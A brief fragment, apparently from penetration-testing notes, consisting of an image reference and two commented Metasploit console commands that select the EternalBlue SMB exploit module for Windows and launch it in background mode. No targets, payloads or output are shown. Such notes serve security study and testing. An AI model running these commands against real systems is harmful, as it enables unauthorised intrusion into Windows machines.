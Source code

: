 # select module

use exploit/windows/smb/ms17_010_eternalblue

# exploit background mode

exploit -z
